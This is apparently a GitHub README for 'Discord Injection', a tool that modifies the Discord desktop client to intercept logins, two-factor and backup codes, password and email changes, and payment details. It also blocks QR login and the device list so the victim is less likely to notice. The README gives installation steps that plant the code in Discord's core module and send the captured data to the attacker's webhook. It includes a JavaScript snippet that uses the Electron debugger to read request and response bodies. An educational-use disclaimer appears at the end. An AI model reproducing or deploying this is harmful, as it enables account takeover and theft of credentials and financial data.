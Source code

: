 <h1 align="center">
  Discord Injection 💉
</h1>

<p align="center">
   Discord HTTP requests interception POC, including backup codes request and many others !
</p>

## Features
- Intercept login, register and 2FA login requests
- Intercept backup codes requests
- Intercept email/password changes requests
- Intercept credit card/paypal adding
- Block usage of QR Code to login
- Block request to see devices

## Installation
- Completely close Discord
- Copy the [injection code](https://raw.githubusercontent.com/hackirby/discord-injection/main/injection.js) inside your Discord desktop core:

`%APPDATA%\Local\Discord\app-<app-version>\modules\discord_desktop_core-<core-version>\discord_desktop_core\index.js`

- Replace `%WEBHOOK%` by your Discord webhook. The informations intercepted will be sent this way.
- Restart Discord

## Preview
### Backup codes sniffing
![image](./assets/codes.png)
### Devices blocking
![image](./assets/devices.png)

## How does backup codes sniffing work ?
I use the [debugger](https://www.electronjs.org/docs/latest/api/debugger) instead of the [WebRequests instance methods](https://www.electronjs.org/docs/latest/api/web-request#instance-methods). It allow me to get request body AND response body:

```js
mainWindow.webContents.debugger.on('message', async (_, method, params) => {
    if (method !== 'Network.responseReceived') return;
    if (![200, 202].includes(params.response.status)) return;

    const responseUnparsedData = await mainWindow.webContents.debugger.sendCommand('Network.getResponseBody', {
        requestId: params.requestId
    });
    const responseData = JSON.parse(responseUnparsedData.body);

    const requestUnparsedData = await mainWindow.webContents.debugger.sendCommand('Network.getRequestPostData', {
        requestId: params.requestId
    });
    const requestData = JSON.parse(requestUnparsedData.postData);
})
```
The backup codes are in the response body of `/mfa/codes-verification` request

## Contributing
If you wish to contribute to this project, kindly open an issue or submit a pull request with your proposed changes. We warmly welcome contributions from the community.

## Enjoying the Project?
- Leave a Star 🌟: Click on the star button at the top of the GitHub repository to show your appreciation.
- Follow me on GitHub: Stay updated with the latest developments by following my GitHub profile.
- Donate ☕: If you're feeling generous and would like to contribute financially, you can donate to help sustain and improve this project. Every little bit helps!

<a href='https://ko-fi.com/hackirby'><img src='https://storage.ko-fi.com/cdn/kofi3.png' width=150></a>

## License
This project is licensed under the MIT License. For more information, please consult the LICENSE file.

## Disclaimer:

### Important Notice:
This injection is inteded for educational purposes only. This is provided strictly for educational and research purposes. Under no circumstances this should be used for any malicious activities, including but not limited to unauthorized access, data theft, or any other harmful actions.

### Usage Responsibility:

By accessing and using this injection, you acknowledge that you are solely responsible for your actions. Any misuse of this injection is strictly prohibited, and the creator (hackirby) disclaims any responsibility for how this injection is utilized. You are fully accountable for ensuring that your usage complies with all applicable laws and regulations in your jurisdiction.

### No Liability:

The creator (hackirby) of this injection shall not be held responsible for any damages or legal consequences resulting from the use or misuse of this software. This includes, but is not limited to, direct, indirect, incidental, consequential, or punitive damages arising out of your access, use, or inability to use this injection.

### No Support:

The creator (hackirby) will not provide any support, guidance, or assistance related to the misuse of this injection. Any inquiries regarding malicious activities will be ignored.

### Acceptance of Terms:

By using this injection, you signify your acceptance of this disclaimer. If you do not agree with the terms stated in this disclaimer, do not use this injection.

